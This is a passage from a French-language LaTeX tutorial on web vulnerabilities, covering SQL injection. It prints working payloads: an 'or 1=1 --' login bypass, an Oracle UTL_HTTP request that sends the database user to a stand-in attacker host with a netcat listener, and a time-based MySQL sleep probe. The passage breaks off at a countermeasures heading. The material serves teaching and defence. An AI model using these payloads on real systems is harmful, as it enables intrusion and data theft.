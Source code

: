 Si les variables \$login et \$password ne sont pas vérifiées, on peut injecter ce que l'on veut dans la requete afin de contourner le controle d'accès :
select ID from utilisateurs where login='xxx' or 1=1 -- ' AND password='yyy'

Ici, la valeur envoyée pour \$login est :
xxx' or 1=1 --
Le double tiret forçant tout ce qui suit dans la requete à être ignoré.


\subsection{SQLi à l'aveugle (Blind)}\label{vulnerabilites:web:sqli:blind}

Lorsque les résultats des requêtes SQL ne sont pas directement affichés par l'application web, il va falloir travailler de manière détournée, en aveugle.

Par exemple, la requête (Oracle) suivante va envoyer des information vers la machine de l'attaquant : 
\begin{center}
http://www.monsite.tld/product.php?id=10

||UTL_HTTP.request(‘attaquant.tld:80’

||(SELECT user FROM DUAL)--
\end{center}

Qui va recevoir le nom de l'utilisateur connecté à la base de données :
\begin{center}
/home/attaquant/nc –nLp 80
 
GET /ROBERT HTTP/1.1

Host: attaquant.tld

Connection: close

\end{center}

Une autre technique très connue est celle par délai d'attente, par exemple pour déterminer la version de MySQL utilisée :

\begin{center}
http://www.monsite.tld/product.php?id=10 AND IF(version() like ‘5\%’, sleep(10), ‘false’))--
\end{center}

Ici, l'observation du temps de réponse de la requête indiquera si la cible utilise MySQL 5.X.

\subsection{Contre-mesures}\label{vulnerabilites:web:sqli:countermeasures}

